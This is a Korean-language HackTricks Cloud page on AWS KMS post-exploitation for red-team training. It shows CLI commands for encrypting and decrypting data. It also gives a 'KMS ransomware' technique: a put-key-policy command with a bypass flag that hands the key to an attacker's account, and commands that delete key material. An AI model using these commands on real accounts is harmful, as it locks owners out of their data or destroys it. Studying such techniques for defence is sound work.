 # AWS - KMS Post Exploitation

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## KMS

자세한 정보는 다음을 확인하세요:

{% content-ref url="../../aws-security/aws-services/aws-kms-enum.md" %}
[aws-kms-enum.md](../../aws-security/aws-services/aws-kms-enum.md)
{% endcontent-ref %}

### 정보 암호화/복호화

* **대칭** 키를 사용
```bash
# Encrypt data
aws kms encrypt \
--key-id f0d3d719-b054-49ec-b515-4095b4777049 \
--plaintext fileb:///tmp/hello.txt \
--output text \
--query CiphertextBlob | base64 \
--decode > ExampleEncryptedFile

# Decrypt data
aws kms decrypt \
--ciphertext-blob fileb://ExampleEncryptedFile \
--key-id f0d3d719-b054-49ec-b515-4095b4777049 \
--output text \
--query Plaintext | base64 \
--decode
```
* **비대칭** 키 사용:
```bash
# Encrypt data
aws kms encrypt \
--key-id d6fecf9d-7aeb-4cd4-bdd3-9044f3f6035a \
--encryption-algorithm RSAES_OAEP_SHA_256 \
--plaintext fileb:///tmp/hello.txt \
--output text \
--query CiphertextBlob | base64 \
--decode > ExampleEncryptedFile

# Decrypt data
aws kms decrypt \
--ciphertext-blob fileb://ExampleEncryptedFile \
--encryption-algorithm RSAES_OAEP_SHA_256 \
--key-id d6fecf9d-7aeb-4cd4-bdd3-9044f3f6035a \
--output text \
--query Plaintext | base64 \
--decode
```
{% hint style="warning" %}
kms decrypt 작업을 시도할 때 'An error occurred (InvalidCiphertextException) when calling the Decrypt operation:' 오류가 발생하면 **`fileb://`** 대신 **`--ciphertext-blob file://`**을 사용해 보십시오.

**`file://`**의 사용은 CLI를 사용할 때 선호하는 인코딩으로 작성된 파일을 사용할 수 있는 편리함을 제공합니다.
CLI 버전 1.6.3 이상에서는 파일의 내용을 CLI에 전달하는 또 다른 방법인 **`fileb://`**을 사용할 수 있습니다. 이는 **`file://`**과 유사하게 작동하지만, 파일의 내용을 텍스트로 읽는 대신 바이너리로 읽습니다.

대부분의 경우, **`file://`**은 파일의 내용을 입력으로 전달하는 사용 사례를 충족시킬 것입니다. 그러나 파일의 내용을 텍스트가 아닌 바이너리로 전달해야 하는 경우 **`fileb://`**을 사용해야 하는 경우도 있습니다.
AWS의 자세한 내용은 여기에서 확인하십시오: [AWS Blog - Best Practice for Local File Parameters](https://aws.amazon.com/blogs/developer/best-practices-for-local-file-parameters/)
{% endhint %}

### KMS 랜섬웨어

KMS에 대한 특권 접근 권한을 가진 공격자는 키의 KMS 정책을 수정하고 **자신의 계정에 대한 접근 권한을 부여**하여 합법적인 계정에 부여된 접근 권한을 제거할 수 있습니다.

그러면 합법적인 계정 사용자는 해당 키로 암호화된 모든 서비스의 정보를 액세스할 수 없게 되어 계정에 대한 간단하지만 효과적인 랜섬웨어를 생성할 수 있습니다.

{% hint style="warning" %}
**AWS 관리 키는 이 공격에 영향을 받지 않으며**, **고객 관리 키**만 영향을 받는다는 점에 유의하십시오.

또한 **`--bypass-policy-lockout-safety-check`** 매개변수를 사용해야 한다는 점에 유의하십시오 (웹 콘솔에서 이 옵션이 없기 때문에 이 공격은 CLI에서만 가능합니다).
{% endhint %}
```bash
# Force policy change
aws kms put-key-policy --key-id mrk-c10357313a644d69b4b28b88523ef20c \
--policy-name default \
--policy file:///tmp/policy.yaml \
--bypass-policy-lockout-safety-check

{
"Id": "key-consolepolicy-3",
"Version": "2012-10-17",
"Statement": [
{
"Sid": "Enable IAM User Permissions",
"Effect": "Allow",
"Principal": {
"AWS": "arn:aws:iam::<your_own_account>:root"
},
"Action": "kms:*",
"Resource": "*"
}
]
}
```
{% hint style="danger" %}
해당 정책을 변경하여 외부 계정에만 접근 권한을 부여한 후, 이 외부 계정에서 새로운 정책을 설정하여 **원래 계정에 접근 권한을 다시 부여하려고 하면, 불가능**합니다.
{% endhint %}

<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### Generic KMS Ransomware

#### Global KMS Ransomware

Global KMS Ransomware를 수행하는 또 다른 방법은 다음 단계를 포함합니다:

* 공격자가 가져온 **키 재료로 새로운 키 생성**
* 이전 버전으로 암호화된 **기존 데이터를 새로운 키로 재암호화**
* **KMS 키 삭제**
* 이제 원래 키 재료를 가진 공격자만 암호화된 데이터를 복호화할 수 있습니다

### Destroy keys
```bash
# Destoy they key material previously imported making the key useless
aws kms delete-imported-key-material --key-id 1234abcd-12ab-34cd-56ef-1234567890ab

# Schedule the destoy of a key (min wait time is 7 days)
aws kms schedule-key-deletion \
--key-id arn:aws:kms:us-west-2:123456789012:key/1234abcd-12ab-34cd-56ef-1234567890ab \
--pending-window-in-days 7
```
{% hint style="danger" %}
AWS는 이제 **교차 계정에서 이전 작업이 수행되는 것을 방지합니다:**
{% endhint %}

<figure><img src="../../../.gitbook/assets/image (17).png" alt=""><figcaption></figcaption></figure>

{% hint style="success" %}
AWS Hacking 학습 및 연습:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
GCP Hacking 학습 및 연습: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks 지원</summary>

* [**구독 플랜**](https://github.com/sponsors/carlospolop)을 확인하세요!
* 💬 [**Discord 그룹**](https://discord.gg/hRep4RUj7f) 또는 [**telegram 그룹**](https://t.me/peass)에 가입하거나 **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)을 팔로우하세요.
* PR을 제출하여 [**HackTricks**](https://github.com/carlospolop/hacktricks) 및 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github 저장소에 해킹 트릭을 공유하세요.

</details>
{% endhint %}
